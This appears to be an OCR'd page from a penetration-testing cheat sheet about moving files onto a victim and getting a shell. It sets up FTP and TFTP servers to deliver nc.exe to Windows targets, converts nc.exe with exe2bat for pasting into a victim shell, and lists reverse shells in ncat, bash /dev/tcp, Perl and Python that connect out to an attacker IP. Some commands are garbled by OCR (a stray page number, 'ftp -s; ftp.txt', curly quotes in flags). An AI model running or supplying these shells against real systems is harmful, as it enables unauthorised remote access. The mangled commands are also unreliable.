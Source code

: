 #### FTP
```bash
# setup
apt-get update && apt-get install pure-ftpd
/etc/init.d/pure-ftpd -j -l puredb:/etc/pure-ftpd/pureftpd.pdb &

# Non-interactive FTP
echo open 10.10.10.10 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
30/67
echo GET filename>>ftp.txt
echo bye>> ftp.txt
ftp -s; ftp.txt
```

#### TFTP
```bash
# Setup TFTP server
mkdir /tftp
atftpd --daemon --port 69 /tftp
nmap -sU localhost
cp /usr/share/windows-binaries/nc.exe /tftp/
FROM WINDOWS tftp -i kali_ip_address get nc.exe
```

#### debug.exe (32bit)
Debug is an assembler, disassembler, and a hex dumping tool <64K file size
```bash
# compress
upx -9 nc.exe

# now convert to txt with exe2bat
locate exe2bat; 
cp /usr/share/windows-binaries/exe2bat.exe
wine exe2bat.exe nc.exe nc.txt

# Copy and paste this txt file into victim shell
# → Gives a 1.dll then nc.exe
```

### Shells
#### Common reverse shells
```bash
ls -l /usr/share/webshells
cat /etc/shells # list shells available
rbash == restricted bash. Can sometimes just type bash to escape it
ls -lah /bin/sh #  Bash installed - dash, why?
ncat (reverse shell)
ncat –lvp 4444 –allow win_ip –ssl	ncat –v linux_ip 4444 –e cmd.exe --ssl
sbd (bind only shell)
sbd –l –p 4444 –e cmd.exe –v –n	sbd windows_ip 4444
Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash ‘bash -i >& /dev/tcp/10.0.0.1/8080 0>&1’
PERL
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Python
python –c ‘import pty; pty.spawn(“/bin/sh”)’
```